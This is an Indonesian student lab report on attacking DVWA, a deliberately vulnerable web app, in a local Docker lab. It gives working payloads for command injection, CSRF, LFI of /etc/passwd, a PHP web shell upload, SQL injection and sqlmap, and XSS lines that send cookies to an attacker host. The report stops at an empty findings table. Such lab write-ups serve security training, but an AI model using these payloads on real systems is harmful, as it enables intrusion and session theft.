# 🛡️ Laporan Praktikum – DVWA (Damn Vulnerable Web Application)
## 1. Informasi Umum

- **Nama Peserta**        : Aria Fatah
- **Tanggal Praktikum**   : 24 Juni 2025
- **Nama Praktikum**      : Web Application Penetration Testing
- **Target Sistem**       : DVWA (Damn Vulnerable Web Application)
- **IP/URL Target**       : [http://localhost:8081](http://localhost:8081)
- **DVWA Security Level** : Low

---

## 2. Tujuan Praktikum
Tujuan dari praktikum ini adalah **mengidentifikasi dan mengeksploitasi kerentanan umum pada aplikasi web**, seperti **XSS, SQL Injection, Command Injection**, dan **CSRF**, menggunakan target vulnerable DVWA.

---

## 3. Tools dan Bahan
- **Tools Utama**:
  - Firefox/Chrome DevTools
  - Burp Suite
  - Nmap
  - Sqlmap

- **VM/Lab Environment**:
  - DVWA (Docker container)
  - Kali Linux (attacker machine)

---

## 4. Metodologi Pengujian
Metode pengujian mengacu pada standar **NIST SP 800-115**:

1. **Planning**
2. **Discovery**
3. **Attack**
4. **Reporting**

---

## 5. Langkah-Langkah Praktikum
1. Menjalankan DVWA menggunakan Docker: 
   ```bash
   docker run -d --name dvwa -p 8081:80 vulnerables/web-dvwa
   ```
2. Mengakses aplikasi di browser `http://localhost:8081`
3. Login dengan akun `admin:password`
4. Klik "Create / Reset Database" untuk memulai, dan login kembali
5. Menjalankan scanning port dengan Nmap:
   ```bash
   nmap -sCV -T5 localhost -p 8081 -oN nmap
   ```
   
6. jangan lupa ubah Security Level menjadi Low

#### 1. Brute Force
- jangan lupa setting scope agar lebih enak interceptnya. (bisa coba add scope dulu di target, lalu setting proxy bagian request dan response AND paling bawah aktifkan)
- Capture request login menggunakan Burp Proxy.
- Kirim ke Intruder.
- Gunakan tipe Cluster Bomb Attack.
- Payload 1: isikan username (admin), Payload 2: list password.
- Gunakan fitur Grep - Match, tambahkan teks yang muncul saat login berhasil (misal: Welcome to the password protected area).
- Jalankan Start Attack (Simple).


#### 2. Command Injection
- saya mencoba melkukan ping ke alamat ip 8.8.8.8
  
- lalu saya coba lakukan command injection
  ```bash
  8.8.8.8> /dev/null 2>&1; ls
  ```
  

### 3. Cross Site Request Forgery (CSRF)
- source code:
  ```php
  <?php
  if( isset( $_GET[ 'Change' ] ) ) {
      // Get input
      $pass_new  = $_GET[ 'password_new' ];
      $pass_conf = $_GET[ 'password_conf' ];

      // Do the passwords match?
      if( $pass_new == $pass_conf ) {
          // They do!
          $pass_new = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $pass_new ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));
          $pass_new = md5( $pass_new );

          // Update the database
          $insert = "UPDATE `users` SET password = '$pass_new' WHERE user = '" . dvwaCurrentUser() . "';";
          $result = mysqli_query($GLOBALS["___mysqli_ston"],  $insert ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );

          // Feedback for the user
          echo "<pre>Password Changed.</pre>";
      }
      else {
          // Issue with passwords matching
          echo "<pre>Passwords did not match.</pre>";
      }

      ((is_null($___mysqli_res = mysqli_close($GLOBALS["___mysqli_ston"]))) ? false : $___mysqli_res);
  }
  ?> 
  ```
- buat file post form ke alamat ip dvwa
  ```bash
  <!DOCTYPE html>
  <html>
    <body onload="document.forms[0].submit()">
      <form action="http://[DVWA-IP]/vulnerabilities/csrf/" method="GET">
        <input type="hidden" name="password_new" value="hacked123">
        <input type="hidden" name="password_conf" value="hacked123">
        <input type="hidden" name="Change" value="Change">
      </form>
    </body>
  </html>
  ```
- Jalankan HTTP server menggunakan Python:
  ```bash
  python3 -m http.server
  ```
  
- Jika ada client yang sudah login ke web DVWA, lalu membuka website yang disajikan melalui HTTP server ini, maka client tersebut bisa terkena serangan CSRF. Hal ini terjadi karena browser secara otomatis mengirimkan cookie yang masih aktif ke DVWA saat permintaan (request) dikirim oleh website dari HTTP server tersebut.
- Dengan cara ini, kamu berhasil mengubah password admin melalui serangan CSRF.
  

- Ringkasan CSRF (Cross-Site Request Forgery): \
  Terjadi ketika:
  - Korban masih dalam keadaan login ke situs target.
  - Penyerang membuat situs atau halaman berisi permintaan palsu ke situs target.
  - Permintaan tersebut dianggap sah oleh server karena disertai cookie korban yang masih aktif.

### 4. File Inclusion
- buka webnya dan coba buka page File 1
  
- terdapat paramter page, lalu kita coba beberapa path untuk LFI seperti /etc/passwd
  ```http://localhost:8081/vulnerabilities/fi/?page=/etc/passwd```
  

### 5. File Upload
- buka webnya dan coba buka page File Upload
- lalu coba upload file php RCE
  ```php
  <?=`$_GET[p]`?>
  ``` 
- lalu buka urlnya, dan ingat sesuaikan p itu sesuai dengan yang kita paramter kita inginkan, lalu upload filenya
  
- setelah di upload buka path ini dan buka filenya, 
  ````http://127.0.0.1:8081/hackable/uploads/```
  
- lalu buka file php yang telah di upload, dan tambahkan parameter ?p=[command]
  
- kita telah berhasil mendapatkan RCE

### 6. SQL Injection
- test parameter 1
  
- test payload sql injection
  ```' OR 1 = 1 #```
  
- kita bisa mendapatkan semua data user
- kita coba mencari passowrdnya dengan payload
  ```' UNION SELECT user, password FROM users #```
  
- lalu decode menggunakan crackstation / cyberchef
  

### 7. SQL Injection (Blind)
- buka web sql injection blind, dan coba lakukan dengan sqlmap
  ```sqlmap -u "http://<IP_Server>/vulnerabilities/sqli_blind/?id=1&Submit=Submit#" --cookie="PHPSESSID=hash; security=low" --dbs```
  
  

### 8. DOM Based Cross Site Scripting (XSS)
- buka ```http://<IP_Server>/DVWA/vulnerabilities/xss_d/?default=<script>alert(document.cookie);</script>```
  
- Membuat halaman untuk menampung cookie
  ```python3 -m http.server 80```
- Melakukan pencurian cookie dan kirim ke halaman penampung
  ```http://<IP_Server>/DVWA/vulnerabilities/xss_d/?default=<script>window.location='http://<IP_Attacker>/?cookie='+document.cookie</script>```
  

### 9. Reflected Cross Site Scripting (XSS)
- Reflected cross-site scripting (XSS) muncul saat aplikasi menerima data dalam permintaan HTTP dan menyertakan data tersebut dalam respons langsung dengan cara yang tidak aman.
- menampilkan alert
  ```<script>alert("test")</script>```
  
- Menampilkan cookie halaman
  ```<input onfocus=javascript:alert(document.cookie) autofocus>```
  
- Melakukan pencurian cookie
  ```<input onfocus=javascript:window.location='http://<IP_Attacker>/?cookie='+document.cookie autofocus>```
  
- bisa juga test deface pake script sederhana
  ```js
  <script>
    const defaceDiv = document.createElement("div");
    defaceDiv.style = "height:100vh;background:black;color:lime;display:flex;justify-content:center;align-items:center;flex-direction:column;margin-top:20px;";
    defaceDiv.innerHTML = `
      <h1 style="font-size:3em;">Hacked by test</h1>
      <p style="font-size:1.5em;">This page was defaced using XSS</p>
    `;
    document.body.appendChild(defaceDiv);
  </script>
  ```
  

### 10. Stored Cross Site Scripting (XSS)
- XSS Stored atau Persistent XSS muncul saat aplikasi menerima data dari sumber yang tidak tepercaya dan menyertakan data tersebut dalam respons HTTP selanjutnya dengan cara yang tidak aman.
- Sebelum melakukan uji serangan, ubah maxlength pada textarea dari 50 menjadi 500 karakter melalui inspect element
  
- Masukkan script ini ke field Message
  ```<script>window.location='http://<IP_Server>/?cookie='+document.cookie</script>```
- tiap ada orang yang buka url web yang terkana xss stored maka dia cookienya akan dikirimkan ke ip attacker
  

---

## 6. Temuan dan Analisis
| No | Jenis Kerentanan     | Deskripsi Temuan                                       | Dampak                                | Bukti  |
